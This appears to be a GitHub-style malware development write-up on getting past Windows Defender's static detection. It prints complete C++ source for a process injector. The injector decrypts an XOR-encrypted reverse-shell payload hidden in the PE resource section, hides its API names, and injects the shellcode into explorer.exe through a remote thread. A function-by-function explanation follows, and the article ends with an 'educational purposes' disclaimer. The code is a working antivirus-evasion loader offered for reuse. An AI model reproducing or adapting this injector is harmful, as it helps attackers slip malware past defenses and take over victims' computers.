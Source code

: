 
# Bypassing Windows Defender Static Detection

## Introduction

In this article, I’ll walk you through how I bypassed the **static detection** of Windows Defender. Currently, I haven’t managed to evade dynamic detection, but I aim to achieve full evasion in the coming months.

To accomplish this, I leaned heavily on the excellent **Malware Development Essentials** course from [Sektor7](https://institute.sektor7.net/). It’s an incredibly informative course on low-level malware development. What follows is essentially the final project I completed as part of this training.

---

## Overview

### Objective

Inject a reverse shell payload into `explorer.exe` while avoiding static detection by Windows Defender.

### Key Evasion Techniques

- Store the payload in the `.rsrc` section of the PE file.
- Encrypt the payload using XOR.
- Obfuscate API calls using `GetProcAddress` and `GetModuleHandle`.
- Encrypt suspicious strings using XOR.

---

![image](https://github.com/user-attachments/assets/77a0f8f8-3a16-45b5-99f6-53806998c853)

## Code Breakdown

```cpp
#include <windows.h>
#include <tlhelp32.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include "resources.h"

// Function pointers for API calls
LPVOID (WINAPI * allocEx)(HANDLE, LPVOID, SIZE_T, DWORD, DWORD);
BOOL (WINAPI * writeMem)(HANDLE, LPVOID, LPCVOID, SIZE_T, SIZE_T*);
HANDLE (WINAPI * createThread)(HANDLE, LPSECURITY_ATTRIBUTES, SIZE_T, LPTHREAD_START_ROUTINE, LPVOID, DWORD, LPDWORD);

char key[] = "mysecretkeee";
char key2[] = "s12";

// XOR encryption/decryption
void XOR(char * data, size_t len, char * key, size_t key_len) {
    int j = 0;
    for (int i = 0; i < len; i++) {
        if (j == key_len - 1) j = 0;
        data[i] ^= key[j++];
    }
}

// Find process ID of target
int FindTarget(const char *procname) {
    PROCESSENTRY32 pe32;
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (snapshot == INVALID_HANDLE_VALUE) return 0;

    pe32.dwSize = sizeof(PROCESSENTRY32);
    if (!Process32First(snapshot, &pe32)) {
        CloseHandle(snapshot);
        return 0;
    }

    while (Process32Next(snapshot, &pe32)) {
        if (lstrcmpiA(procname, pe32.szExeFile) == 0) {
            CloseHandle(snapshot);
            return pe32.th32ProcessID;
        }
    }

    CloseHandle(snapshot);
    return 0;
}

// Inject payload into process
int Inject(HANDLE hProc, unsigned char * payload, unsigned int payload_len) {
    unsigned char s_allocEx[] = { /* obfuscated bytes */ };
    unsigned char s_writeMem[] = { /* obfuscated bytes */ };
    unsigned char s_createThread[] = { /* obfuscated bytes */ };

    XOR((char *) s_allocEx, sizeof(s_allocEx), key2, sizeof(key2));
    XOR((char *) s_writeMem, sizeof(s_writeMem), key2, sizeof(key2));
    XOR((char *) s_createThread, sizeof(s_createThread), key2, sizeof(key2));

    allocEx = GetProcAddress(GetModuleHandle("kernel32.dll"), s_allocEx);
    writeMem = GetProcAddress(GetModuleHandle("kernel32.dll"), s_writeMem);
    createThread = GetProcAddress(GetModuleHandle("kernel32.dll"), s_createThread);

    LPVOID remote = allocEx(hProc, NULL, payload_len, MEM_COMMIT, PAGE_EXECUTE_READ);
    writeMem(hProc, remote, payload, payload_len, NULL);

    HANDLE hThread = createThread(hProc, NULL, 0, remote, NULL, 0, NULL);
    if (hThread) {
        WaitForSingleObject(hThread, 500);
        CloseHandle(hThread);
        return 0;
    }
    return -1;
}

// Main execution
int main(void) {
    void * exec_mem;
    HANDLE hProc;
    DWORD oldprotect;
    unsigned char * payload;
    unsigned int payload_len;

    HRSRC res = FindResource(NULL, MAKEINTRESOURCE(FAVICON_ICO), RT_RCDATA);
    HGLOBAL resHandle = LoadResource(NULL, res);
    payload = (char *) LockResource(resHandle);
    payload_len = SizeofResource(NULL, res);

    exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    RtlMoveMemory(exec_mem, payload, payload_len);
    XOR((char *) exec_mem, payload_len, key, sizeof(key));

    printf("Ready to inject. Press Enter to continue...
");
    getchar();

    int pid = FindTarget("explorer.exe");
    if (pid) {
        hProc = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
        if (hProc) {
            Inject(hProc, exec_mem, payload_len);
            CloseHandle(hProc);
        }
    }

    return 0;
}
```

---

## Payload

The reverse shell payload is not included directly in the source. Instead, it's stored in the `.rsrc` section of the PE file. Learn more about this technique in this writeup:

> 📖 [Storing Payload in PE File (Medium article)](https://medium.com)

## Function Breakdown

The malware is composed of four primary functions:

### 1. `XOR`
This function performs a simple XOR encryption/decryption on a data buffer using a provided key. While often referred to as encoding, the use of a key classifies this operation as encryption. The function iterates through the data, applying the XOR operation with the repeating key to obfuscate or reveal the payload.

### 2. `FindTarget`
This function takes the name of a process as input and returns its Process ID (PID). It leverages `CreateToolhelp32Snapshot` to list all running processes, and uses `Process32First` and `Process32Next` to iterate through them. If the specified process name matches, it extracts and returns the corresponding PID.

### 3. `Inject`
This function handles shellcode injection into a target process. It performs three key steps:
- **Memory Allocation**: Allocates memory in the remote process using `VirtualAllocEx`.
- **Payload Writing**: Writes the shellcode into the allocated memory with `WriteProcessMemory`.
- **Execution**: Executes the shellcode using `CreateRemoteThread`.

### 4. `main`
The `main` function serves as the entry point. It:
- Extracts an encrypted shellcode payload from the `.rsrc` section (`favicon.ico`).
- Allocates local memory with `VirtualAlloc`.
- Copies and decrypts the payload using the `XOR` function.
- Finds the PID of `explorer.exe` using `FindTarget`.
- Injects the decrypted payload into `explorer.exe` using `Inject`.

The approach ensures the shellcode is hidden from static analysis via resource embedding and encryption, and uses remote thread creation for execution within a trusted process context.


---

## Result

After compiling the binary and scanning it with Windows Defender, it triggers detection when executed — **not** on static scan. This demonstrates that static evasion is working as intended. The reverse shell is launched only when `explorer.exe` is active and undisturbed.

---

## POC

![image](https://github.com/user-attachments/assets/897a9e0e-2789-4b7d-bce3-d101baded034)

## Conclusion

This project is a practical example of basic static detection evasion for educational purposes. I hope it helps anyone learning about red teaming and malware development.

More to come — including full evasion from Windows Defender.

— **Malforge Group**

---

> **Disclaimer:** This is for educational and ethical hacking purposes only. Never use this knowledge for illegal activities.
